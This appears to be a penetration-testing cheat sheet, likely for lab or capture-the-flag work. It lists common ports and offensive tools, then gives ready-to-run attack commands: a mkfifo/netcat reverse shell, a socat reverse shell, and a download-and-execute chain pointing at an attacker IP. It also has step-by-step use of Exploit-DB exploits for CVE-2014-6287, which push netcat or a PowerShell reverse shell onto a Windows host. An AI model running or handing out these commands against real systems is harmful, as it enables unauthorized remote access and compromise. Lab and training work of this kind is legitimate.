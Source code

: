 # CheatSheet

## Ports
- 20, 21 / FTP
- 22 / SSH
- 23 / Telnet
- 25 / SMTP
- 53 / DNS
- 80 / HTTP
- 110 / POP3
- 443 / HTTPS
- 139, 445 / SMB
- NFS / 2049
- MySQL / 3306

## Tools
- [Rustscan](rustscan.md)
- [Nmap](nmap.md)
- [MSFVenom](msfvenom.md)
- [Gobuster](gobuster.md)
- [Hydra](hydra.md)
- [John the Ripper](john.md)
- [Hashcat](hashcat.md)

## Exploit by protocol
- [SSH](ssh.md)
- [SMB](smb.md)
- [Telnet](telnet.md)
- [NFS](nfs.md)
- [FTP](ftp.md)
- [SMTP](smtp.md)
- [MySQL](mysql.md)

## Useful Commands
Generate shell payload
```
echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.4.49.251 4444 >/tmp/f" > shell.sh
```

Download file from local Web server on kali
```
FILE=[FILE NAME]; wget http://10.4.49.251/$FILE -O /tmp/$FILE; chmod +x /tmp/$FILE; sh /tmp/$FILE
```

### Socat
・Target Host  
```
wget http://10.4.49.251/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.4.49.251:4445
```

・Attacker (Kali)
```
socat file:`tty`,raw,echo=0 TCP-L:4445
```

Additional Settings :
```
export SHELL=bash; export TERM=xterm-256color; stty rows 60 columns 126
```

## Exploit DB (Windows)
### CVE : 2014-6287 ([39161](https://www.exploit-db.com/exploits/39161))
You can execute arbitrary commands on the remote Windows host.

Download the python script to kali
```
wget https://www.exploit-db.com/raw/39161 -O /tmp/39161.py
```

Download netcat binary file.  
39161.pyではあらかじめローカルIP、ポートを指定する必要あり。指定したアドレスから、netcatの実行可能ファイルをnc.exeという名前でダウンロードする仕様。そして、ダウンロードしたnc.exeを実行し、そのローカルIP、ポートにコネクトバックする（リバースシェル）
```
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/windows/x86/ncat.exe -O ~/Downloads/steel/nc.exe
```

Start python web server in kali
```
cd ~/Downloads/steel/
python3 -m http.server 80
```

Start netcat listener
```
rlwrap nc -lvnp ${lport}
```

The following command needs to be executed TWICE.
Download nc.exe first, and connects back to the listner on Kali second time. 
```
python 39161.py $rhost [RPORT]
```

### CVE : 2014-6287 ([49125](https://www.exploit-db.com/exploits/49125))
You can execute arbitrary commands on the remote Windows host.

Download the python script to kali
```
wget https://www.exploit-db.com/raw/49125 -O /tmp/49125.py
```

Download the powershell script to kali.
Local IP and port in the script needs to be changed.
```
wget https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1 -O ~/Downloads/steel/mini-reverse.ps1
```

Start python web server in kali
```
cd ~/Downloads/steel/
python3 -m http.server 80
```

Start netcat listener
```
rlwrap nc -lvnp ${lport}
```

Execute the script. Execute the commands passed as the third argument.
```
cd /tmp
python3 49125.py $rhost [RPORT] "C:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe -c wget 'http://${lhost}/mini-reverse.ps1' -outfile 'C:\Users\Bill\Desktop\mini-reverse.ps1'; C:\Users\Bill\Desktop\mini-reverse.ps1" 
```

## Reference

Exploit DB  
https://www.exploit-db.com/

MSF Console Commands  
https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/

Meterpreter Commands  
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/

GTFOBins  
https://gtfobins.github.io/

PayloadsAllTheThings / Reverse Shell Cheat Sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

PayloadsAllTheThings / Linux - Privilege Escalation
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#find-suid-binaries

CrackStation  
https://crackstation.net/

Hash Analyzer  
https://www.tunnelsup.com/hash-analyzer/

Upgrading Simple Shells to Fully Interactive TTYs  
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
